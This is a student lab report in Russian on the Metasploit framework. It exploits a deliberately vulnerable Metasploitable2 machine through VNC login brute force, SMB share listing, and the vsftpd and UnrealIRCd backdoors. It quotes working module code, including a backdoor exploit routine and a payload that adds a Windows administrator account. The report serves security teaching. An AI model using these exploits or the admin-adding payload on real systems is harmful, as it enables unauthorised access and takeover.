\documentclass[11pt, a4paper]{article}		% general format


%%%% Charset
\usepackage[utf8]{inputenc}					% use utf8					
\usepackage[russian]{babel}					% use russian font


%%%% Math
\usepackage{amsmath}						% Amer­i­can Math­e­mat­i­cal So­ci­ety (AMS) math fa­cil­i­ties
\usepackage{amsfonts}						% fonts from the AMS
\usepackage{amssymb}						% additional math symbols


%%%% Graphics
\usepackage{graphicx}


\author{Бусаров Владислав}
\title{Отчет по лабораторной работе №5 :\\ Инструмент тестов на проникновение metasploit}
\date{2015}

%---------------------------------------------------------

\begin{document}
\maketitle
\tableofcontents
\newpage

%---------------------------------------------------------


\section{Цель работы}

Изучить варианты использования metasploit.



%---------------------------------------------------------

\section{Ход работы, теория}


%---------------------------------------------------------

\subsection{Используя документацию изучить основные понятия auxiliary, payload, exploit, shellcode,	nop, encoder}

\begin{itemize}

\item auxiliary - модули, которые используются для различных целей, например, сканирование портов, DoS атаки, и даже фаззинг.

\item payload - модули, код, которых может быть выполнен на целевой машине после удачного выполнения экслпойта. Зачастую строят канал между metasploit и целевой машиной.

\item exploit - модули, которые взламывают целевуб машину, после чего на ней выполняется payload, который предоставяет доступ к командной строке.

\item shellcode - это двоичный исполняемый код, который обычно передаёт управление консоли, например \verb'’/bin/sh’' Unix shell, command.com в MS-DOS и cmd.exe в операционных системах Microsoft Windows. Код оболочки может быть использован как полезная нагрузка эксплойта, обеспечивая взломщику доступ к командной оболочке (англ. shell) в компьютерной системе.

\item nop - модули, которые гененрируют команду процессору ничего не делать, обычно используются для переполнения буфера.

\item encoder - модули, для кодирования payload'ов, во время выполнения декодируются. Для кодирования используется, например, алгоритм XOR. 

\end{itemize}

%---------------------------------------------------------

\subsection{Запуск msfconsole}

Запустим msfconsole и узнаем список допустимых команд (help).

При вводе команды help, можно посмотреть список доступных команд. Перечислять все не имеет смысле, какие-то описаны ниже, а какие-то мы уже знаем.

Фреймворк Metasploit обладает тремя рабочими окружениями: msfconsole, msfcli и msfweb. Основным и наиболее предпочтительным из трех перечисленных вариантов является первый - msfconsole. Это окружение представляет из себя эффективный интерфейс командной строки со своим собственным набором команд и системным окружением.

%---------------------------------------------------------

\subsection{Базовые команды}

\begin{itemize}

\item search <keyword> - запустив команду search без указания ключевых слов, выводится список всех доступных эксплоитов. Если значение <keyword> имеет имя определенного сплоита, то этой командой ищем такой в базе данных системы.

\item info <type> <name> - если нужна конкретная и полная информация о каком-либо эксплоите или payload’е, можно применить команду info. Например, нужно подробное описание payload’а winbind. Тогда необходимо набрать в командной строке info payload winbind и получить справочную информацию по нему.

\item load, unload - команда используется для загрузки/удаления плагинов.

\item use <exploit\_name> - команда говорит Фреймворку Metasploi запустить эксплоит с указанным конкретным именем.

\item setg <var> <val>, unsetg <var> - задание значения глобальной переменной <var> и наоборот.

\item show - команда используется для просмотра опций или модулей.

\item exit - выход.

\end{itemize}

%---------------------------------------------------------

\subsection{Команды по работе с эксплоитом}

Для работы с эксплоитом используются следующие команды:

\begin{itemize}

\item show exploits - указав команду show exploits, получим список всех доступных на данный момент эксплоитов. Имеются версии последних под различные платформы и приложения, включая Windows, Linux, IIS, Apache и так далее. Это поможет понять работу фреймворка Metasploit и почувствовать его гибкость и эффективность.

\item show options - набрав в командной строке show options, будет выведет список опций, которые можно использовать. Каждый эксплоит или payload имеет свой собственный набор опций, который можно использовать при работе с ними.

\item exploit - запускает эксплоит. Есть другая версия этой команды - rexploit, которая перезагружает код запущенного эксплоита и запускает его вновь. Эти две команды помогают работать с эксплоитами с минимальными усилиями, без перезапуска консоли.

\item set RHOST <hostname\_or\_ip> - указываем этой командой Metasploit определенный хост в сети для его изучения. Хост можно задать как по его имени, так и по IP-адресу.

\item set RPORT <host\_port> - задает для Metasploit порт удаленной машины, по которому фреймворк должен подключиться к указанному хосту

\item set payload <generic/shell\_bind\_tcp> - команда указывает имя payload’а, который будет использоваться.

\item  set LPORT <local\_port> - задаем номер порта для payload’а на сервере, на котором был выполнен эксплоит. Это важно, так как номер этого порта открыт именно на сервере (он не может быть использован никакими другими службами этого сервера и не резервируется для административных нужд). Советую назначать такой номер из набора четырех случайных цифр, порядок которых начинается с 1024. И тогда у вас все будет хорошо. Также стоит упомянуть, что необходимо менять номер порта каждый раз, когда успешно запущен эксплоит на удаленной машине.

\end{itemize}


%---------------------------------------------------------

\subsection{Команды по работе с БД}

\begin{itemize}

\item db\_connect - подключение к базе данных.

\item db\_status - проверка состояния базы данных.

\item db\_host - просмотр списка хостов в файле базы данных.

\item db\_del\_host - удалить какой-либо хост из базы данных.

\item db\_rebuild\_cache - пересобирает кэш.

\end{itemize}


%---------------------------------------------------------

\subsection{GUI оболочка Armitage}

Armitage является графической оболочкой для фреймворка Metasploit , значительно упрощающей работу с ним. С помощью Armitage можно представлять хосты-цели в визуальном режиме, получать подсказки о рекомендуемых эксплоитах в каждом конкретном случае.

Для опытных пользователей Armitage предлагает возможности удаленного управления и совместной работы с Metasploit.

Запустим и протестируем работу Armitage. Укажем начальные параметры, как на рисунке 1. Далее жмем Connect.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/armitage}
\caption{Настройки подключения к armitage}
\end{figure}


После запуска введем ip атакуемой машины. Проведем эксперимент из пункта 2.2.1. Для этого в боковом меню найдем необходимую auxiliary (vnc\_login) и укажем настройки. Далее нажимаем Launch. Результат выполнения успешен и представлен на рисунке 2.


\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta}
\caption{Настройки подключения к armitage}
\end{figure}

%---------------------------------------------------------

\subsection{GUI веб-клиент}

После попытки регистрации получил письмо с тектсом:

Thank you for your interest in Metasploit. In order to comply with United States export control regulations, all requests for Metasploit Community and Metasploit Pro outside of the United States or Canada must be reviewed by Rapid7 to determine if you are a restricted government end-user or otherwise ineligible to receive a product license key.

%---------------------------------------------------------

\section{Ход работы, практика}

%---------------------------------------------------------

\subsection{Подключиться к VNC-серверу, получить доступ к консоли}

\begin{itemize}
\item Просканируем порты на гостевой ОС metasploitable2
Введем команду: \verb'nmap 192.168.0.100 -sV'

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta1}
\caption{Поиск vnc сервиса}
\end{figure}

Откуда видно, что VNC сервер работает с портом 5900 и название сервиса - VNC (protocol 3.3)(см. рисунок 3)

\item В msfconsole воспользуемся командой \verb'search "VNC (protocol 3.3)"'

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta2}
\caption{Поиск эксплоитов vnc}
\end{figure}

Как видно из рисунка 4 присутствуем много эксплоитов. По каждому можно получить информацию командой \verb'info <exploit_name>' 

\item Воспользуемся \verb'auxiliary/scanner/vnc/vnc_login'

Для этого введем команду \verb'use auxiliary/scanner/vnc/vnc_login'

Установим необходимые параметры \verb'set RHOSTS 192.168.0.100'

Запустим exploit - \verb'exploit'

Реузльтат на рисунке 5.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta3}
\caption{vnc exploit}
\end{figure}

\item Теперь, зная пароль запустим vncviewer

Команда: \verb'vncviewer 192.168.0.100:5900'

Результат а рисунке 6

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta4}
\caption{vncviewer}
\end{figure}


\end{itemize}


%---------------------------------------------------------

\subsection{Получить список директорий в общем доступе по протоколу SMB}

Для данной операции выберем auxiliary: \verb'auxiliary/scanner/smb/smb_enumshares'

Результат выполнения представлен на рисунке 7

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta5}
\caption{smb enumshares}
\end{figure}



%---------------------------------------------------------

\subsection{Получить консоль используя уязвимость в vsftpd}

Для данной операции выберем exploit: \verb'exploit/unix/ftp/vsftpd_234_backdoor'

Результат на рисунке 8 и 9

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta6}
\caption{vsftpd 234 backdoor}
\end{figure}

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta7}
\caption{vsftpd 234 backdoor}
\end{figure}


%---------------------------------------------------------

\subsection{Получить консоль используя уязвимость в irc}

Выберем эксплоит exploit/unix/irc/unreal\_ircd\_3281\_backdoor

Результат выполнения на рисунке 10 и 11

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta8}
\caption{irc backdoor}
\end{figure}

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta9}
\caption{irc backdoor}
\end{figure}

%---------------------------------------------------------

\subsection{Armitage Hail Mary}

Запустим Armitage. Выберем в качестве жертвы хост 192.168.0.100 и в меню Attacks->Hail Mary. После запуска функция hail mary проводит ”умную” атаку. Результат выполнения атаки представлен на рисунке 12.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.8]{res/meta10}
\caption{Armitage Hail Mary}
\end{figure}



%---------------------------------------------------------

\subsection{Изучить три файла с исходным кодом эксплойитов или служебных скриптов на ruby и описать, что в них происходит}

Путь к модулям: \verb'/usr/share/metasploit-framework/modules/'.

Путь к файлам фреймворка: \verb'/usr/share/metasploit-framework/metasploit/framework/'.

Путь к ядру: \verb'/usr/share/metasploit-framework/msf/core'.

\begin{itemize}

\item Расмотрим модуль axuiliary для brute-force сканирования логина по протоколу ftp - \verb'auxiliary/scaner/ftp/ftp_login'.

Путь к файлу: \verb'/usr/share/metasploit-framework/modules/auxiliary/scaner/ftp/ftp_login.rb'

В самом начале определяются описываются зависимости от модулей:

\begin{verbatim}
require 'msf/core'	# ядро msf
require 'metasploit/framework/credential_collection' # класс для хранения учетных данных и получения их из файла
require 'metasploit/framework/login_scanner/ftp' # ftp сканер
\end{verbatim}

Далее следует описание класса, наследуемого от \verb'Msf::Auxiliary'.

\begin{verbatim}
class Metasploit3 < Msf::Auxiliary
\end{verbatim}

Затем добавляются чтобы добавить методы экземпляра класса, для этого прописываются команды include соответствующих модулей:

\begin{verbatim}
include Msf::Exploit::Remote::Ftp
include Msf::Auxiliary::Scanner
include Msf::Auxiliary::Report
include Msf::Auxiliary::AuthBrute
\end{verbatim}

В методе initialize прописываются описание модуля: 

\begin{verbatim}
super(
      'Name'        => 'FTP Authentication Scanner',
      'Description' => %q{
        This module will test FTP logins on a range of machines and
        report successful logins.  If you have loaded a database plugin
        and connected to a database this module will record successful
        logins and hosts so you can track your access.
      },
      'Author'      => 'todb',
      'References'     =>
        [
          [ 'CVE', '1999-0502'] # Weak password
        ],
      'License'     => MSF_LICENSE
    )
\end{verbatim}

А так же опции: 

\begin{verbatim}
register_options(
      [
        Opt::Proxies,
        Opt::RPORT(21),
        OptBool.new('RECORD_GUEST', [ false, "Record anonymous/guest logins to the database", false])
      ], self.class)

    register_advanced_options(
      [
        OptBool.new('SINGLE_SESSION', [ false, 'Disconnect after every login attempt', false])
      ]
    )

    deregister_options('FTPUSER','FTPPASS') # Can use these, but should use 'username' and 'password'
    @accepts_all_logins = {}
\end{verbatim}

Далее следует метод run\_host, который и производит сканирование. Сначала выводиться информация, что сканирование началось:

\begin{verbatim}
print_status("#{ip}:#{rport} - Starting FTP login sweep")
\end{verbatim}

Создаетются экземпляры учетных данных и сканера:

\begin{verbatim}
cred_collection = Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS'],
        prepended_creds: anonymous_creds
    )

    cred_collection = prepend_db_passwords(cred_collection)

    scanner = Metasploit::Framework::LoginScanner::FTP.new(
        host: ip,
        port: rport,
        proxies: datastore['PROXIES'],
        cred_details: cred_collection,
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        max_send_size: datastore['TCP::max_send_size'],
        send_delay: datastore['TCP::send_delay'],
        connection_timeout: 30,
        framework: framework,
        framework_module: self,
    )
\end{verbatim}

И непосредственно сканирование:

\begin{verbatim}
scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      if result.success?
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
      else
        invalidate_login(credential_data)
        vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})"
      end
    end
\end{verbatim}



\item Далее рассмотрим exploit - vsftpd\_234\_backdoor. 

Путь: \verb'/usr/share/metasploit-framework/modules/exploit/unix/ftp/vsftd_234_backdoor.rb'.

Здесь все аналогично, остановимся на логике эксплоита.

Сначала происодит попытка подключения по порту 6200.

\begin{verbatim}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_status("The port used by the backdoor bind listener is already open")
      handle_backdoor(nsock)
      return
    end
\end{verbatim}

Далее, если сокет открыт на ftp сервер отправляется рандомный пользователь и пароль, так же осуществляются проверки на доступ только анонимным пользователям и на ответ сервера:

\begin{verbatim}
sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
    resp = sock.get_once(-1, 30).to_s
    print_status("USER: #{resp.strip}")

    if resp =~ /^530 /
      print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
      disconnect
      return
    end

    if resp !~ /^331 /
      print_error("This server did not respond as expected: #{resp.strip}")
      disconnect
      return
    end

    sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")
\end{verbatim}

Далее не получая ответа на ввод пароля просто пытаемся запустить backdoor:

\begin{verbatim}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_good("Backdoor service has been spawned, handling...")
      handle_backdoor(nsock)
      return
    end
\end{verbatim}

Payload запускается в методе handle\_backdoor:

\begin{verbatim}
 def handle_backdoor(s)

    s.put("id\n")

    r = s.get_once(-1, 5).to_s
    if r !~ /uid=/
      print_error("The service on port 6200 does not appear to be a shell")
      disconnect(s)
      return
    end

    print_good("UID: #{r.strip}")

    s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
    handler(s)
  end
\end{verbatim}


\item Рассмотрим payload - windows/adduser.

Данный payload создает пользователя в системе windows, с заранее заданными настройками.

Путь: \verb'/usr/share/metasploit-framework/modules/payload/singles/windows/adduser.rb'.

Сначала прописаны опции: 

\begin{verbatim}
register_options(
      [
        OptString.new('USER', [ true, "The username to create",     "metasploit" ]),
        OptString.new('PASS', [ true, "The password for this user", "Metasploit$1" ]),
        OptString.new('CUSTOM', [ false, "Custom group name to be used instead of default", '' ]),
        OptBool.new('WMIC',	 [ true, "Use WMIC on the target to resolve administrators group", false ]),
      ], self.class)

    register_advanced_options(
      [
        OptBool.new("COMPLEXITY", [ true, "Check password for complexity rules", true ]),
      ], self.class)
\end{verbatim}

Далее в зависимости от введных опций генерируется код который должен быть запущен на компьтере жертве в командной строке:

\begin{verbatim}
def command_string
    user = datastore['USER'] || 'metasploit'
    pass = datastore['PASS'] || ''
    cust = datastore['CUSTOM'] || ''
    wmic = datastore['WMIC']
    complexity= datastore['COMPLEXITY']

    if(pass.length > 14)
      raise ArgumentError, "Password for the adduser payload must be 14 characters or less"
    end

    if complexity and pass !~ /\A^.*((?=.{8,})(?=.*[a-z])(?=.*[A-Z])(?=.*[\d\W])).*$/
      raise ArgumentError, "Password: #{pass} doesn't meet complexity requirements and may cause issues"
    end

    if not cust.empty?
      print_status("Using custom group name #{cust}")
      return "cmd.exe /c net user #{user} #{pass} /ADD && " +
        "net localgroup \"#{cust}\" #{user} /ADD"
    elsif wmic
      print_status("Using WMIC to discover the administrative group name")
      return "cmd.exe /c \"FOR /F \"usebackq tokens=2* skip=1 delims==\" " +
        "%G IN (`wmic group where sid^='S-1-5-32-544' get name /Value`); do " +
        "FOR /F \"usebackq tokens=1 delims==\" %X IN (`echo %G`); do " +
        "net user #{user} #{pass} /ADD && " +
        "net localgroup \"%X\" #{user} /ADD\""
    else
      return "cmd.exe /c net user #{user} #{pass} /ADD && " +
        "net localgroup Administrators #{user} /ADD"
    end

  end
\end{verbatim}



\end{itemize}



%---------------------------------------------------------

\section{Выводы}

После выполнения работы были изучены основные принципы работы с metasploit-framework, в основном через интерфейс msfconsole. Так же пришлось поработать через интерфейс armitage. С практической стороны были изучены методы сканирования хостов и получения к ним доступа, рассмотрены типичные атаки. Изучены основы программирования эксплоитов, код некоторых модулей. Очень понравилось работать с данной лабораторной работой!

\end{document}